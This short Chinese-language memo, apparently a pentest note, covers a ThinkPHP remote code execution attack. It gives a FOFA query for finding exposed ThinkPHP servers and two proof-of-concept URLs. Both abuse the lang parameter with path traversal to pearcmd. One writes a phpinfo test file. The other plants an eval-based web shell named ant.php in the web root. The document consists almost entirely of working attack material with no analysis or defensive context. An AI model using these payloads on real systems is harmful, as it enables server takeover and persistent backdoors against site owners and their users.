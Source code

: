 # ThinkPHP RCE
## 资产收集
fofa：`header="thinkphp"`
## POC
`http://172.17.0.2/public/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=phpinfo()?>+/tmp/hello.php`
`?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_REQUEST['ant']);?>+/var/www/html/ant.php`